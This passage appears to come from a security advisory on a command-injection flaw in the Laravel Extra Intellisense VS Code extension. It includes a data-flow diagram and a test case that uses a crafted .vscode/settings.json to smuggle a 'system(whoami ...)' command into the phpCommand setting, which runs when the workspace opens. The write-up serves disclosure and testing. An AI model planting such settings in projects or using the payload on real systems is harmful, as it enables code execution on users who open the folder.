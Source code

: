     ```
    User-provided settings (in .vscode/settings.json)
        |
        V
    vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand')
        |
        V
    commandTemplate (e.g., "malicious_command {code}")
        |
        V
    command = commandTemplate.replace("{code}", code)  // No sanitization of 'code'
        |
        V
    cp.exec(command)  // Executes the command, including injected malicious parts
        |
        V
    Remote Code Execution
    ```

*   **Security Test Case:**
    1.  Create a new directory named `laravel-vuln-test`.
    2.  Inside `laravel-vuln-test`, create a subdirectory named `.vscode`.
    3.  Inside `.vscode`, create a file named `settings.json` with the following content:
        ```json
        {
            "LaravelExtraIntellisense.phpCommand": "echo '; system(\"whoami > /tmp/pwned.txt\"); echo \\\"___VSCODE_LARAVEL_EXTRA_INSTELLISENSE_OUTPUT___\\\" ; echo \\\"___VSCODE_LARAVEL_EXTRA_INSTELLISENSE_END_OUTPUT___\\\" ;' | php"
        }
        ```
        *   This malicious command will execute `whoami` and redirect the output to `/tmp/pwned.txt`. The `echo` commands are added to mimic the extension's output handling and avoid parse errors in the extension's logic.
    4.  Open VS Code and open the `laravel-vuln-test` folder as a workspace.
    5.  Ensure the "Laravel Extra Intellisense" extension is installed and activated.
    6.  Create an empty PHP file named `test.php` in the `laravel-vuln-test` directory. No specific content is needed as the vulnerability triggers when the extension attempts to provide autocompletion, regardless of the file content.
    7.  Open `test.php` in the editor. This action, or any other action that triggers the extension's autocompletion features (like typing in a blade file), should cause the extension to execute the malicious command.
    8.  After a short delay (to allow the extension to run and the command to execute), open a terminal in VS Code (or use an external terminal) and check if the file `/tmp/pwned.txt` exists and contains the output of the `whoami` command.
    9.  If the file `/tmp/pwned.txt` exists and contains the username of the user running VS Code, this confirms that the Remote Code Execution vulnerability is successfully exploited.
